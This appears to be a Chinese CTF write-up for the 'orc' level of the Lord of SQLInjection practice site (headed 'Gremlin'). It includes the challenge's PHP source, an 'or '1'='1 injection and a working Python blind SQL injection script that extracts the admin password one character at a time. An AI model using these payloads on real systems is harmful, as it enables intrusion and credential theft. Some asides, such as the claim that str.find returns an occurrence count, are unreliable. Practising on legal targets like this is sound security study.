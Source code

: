 ```yaml
---
layout:     post
title:      WriteUp5
subtitle:   SQL注入
date:       2022-10-21
author:     Distiny
header-img: img/post-bg-mma-5.jpg
catalog: true
tags:
    - CTF
    - web安全
---
```


### 靶场：[LORD OF SQLINJECTION](https://los.rubiya.kr/)

#### 第四题 Gremlin

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

首先`pw='or '1'='1`,显示出Hello admin,成功注入

但是要达到最后的目的，需要`$result['pw'] == $_GET['pw']`,也就是说数据库查到的pw和我们提供pw要一样，那就意味着必须得想办法找到admin的密码。

**盲注**找密码啦，好处在于注入成功有反应，显示Hello admin，不用时间型盲注那么费事。

```python
import requests

url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
headers = {'Host': 'los.rubiya.kr',
'Connection': 'close',
'Pagma': 'no-cache',
'Cache-Control': 'no-cache',
'sec-ch-ua-platform': "Windows",
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36'}
cookies={'PHPSESSID':'ma87lcsq7gmnhc33h13j97b0kl'}
# 确定密码长度
for length in range(4,20):
    params = {'pw':f"'or length(pw)={length}-- "}
    response = requests.get(url, cookies=cookies, params=params)
    if(response.text.find("Hello admin")!=-1):
        print(f"length: {length}")
        break
#依次确定每个字符
pw = ""
for n in range (1,length+1):
    for code in range(48,123):
        params = {'pw':f"'or ascii(SUBSTR(pw,{n},1))={code}-- "}
        response = requests.get(url, cookies=cookies, params=params)
        print(params)
        if(response.text.find("Hello admin")!=-1):
            pw+=chr(code)
            print(f"pw: {pw}")
            break
```

用到的函数：

```sql
SUBSTR(str,n,m)	#截取str从n开始的m位

ASCII(chr)		#返回字符的ascii码值，如果是string，则返回第一个字符的ascii码值
```

Python函数：

```python
[str].find(str1)	#返回在str中str1出现的次数，如果没有出现，返回-1
```



> tip：在这道题里面，想把后面内容注释掉，使用#发现不成功，暂时不知道什么原因，可能是php优化了这一点？
>
> 可以换用sql的多行注释[-- ]
>
> 注意减号后面有个空格，如果在浏览器里面不好输入，空格可以写成+
